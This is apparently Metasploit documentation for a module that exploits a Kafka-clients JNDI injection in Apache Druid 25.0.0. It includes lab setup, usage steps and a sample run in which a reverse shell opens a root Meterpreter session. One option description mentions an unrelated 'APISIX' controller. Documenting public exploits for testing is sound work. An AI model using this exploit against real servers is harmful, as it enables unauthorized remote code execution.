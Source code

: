 ## Vulnerable Application

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing.
Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the
`sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`.
It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can
use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization
of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

As Apache Druid dependeds on kafka-clients to connect to one of its datasources, making it out of the box vulnerable if using any
affected version.

The below docker compose file can be used to build a vulnerable container.

```doocker-compose
version: '2'
services:
 web:
   image: vulhub/apache-druid:25.0.0
   ports:
    - "8888:8888"
```


## Verification Steps

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_druid_cve_2023_25194`
1. `set rhosts <rhost>`
1. `run`

## Scenarios

### Apache Kafka-clients 3.3.1 on Druid version 25.0.0

```
msf6 exploit(multi/http/apache_druid_cve_2023_25194) > exploit 

[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to trigger the jndi callback...
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unbind request
[*] Server stopped.
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:42908) at 2023-06-22 13:33:01 +0200

meterpreter > sysinfo
Computer     : 72fc9c4031a6
OS           : Linux 6.1.11-1-MANJARO #1 SMP PREEMPT_DYNAMIC Thu Feb  9 14:03:23 UTC 2023
Architecture : x64
Meterpreter  : python/linux
meterpreter > shell
Process 1112 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
find /opt/druid/extensions/druid-kafka-indexing-service/ -iname "kafka-clients*"
/opt/druid/extensions/druid-kafka-indexing-service/kafka-clients-3.3.1.jar
^C
Terminate channel 1? [y/N]  y
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: User exit
```

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/`).
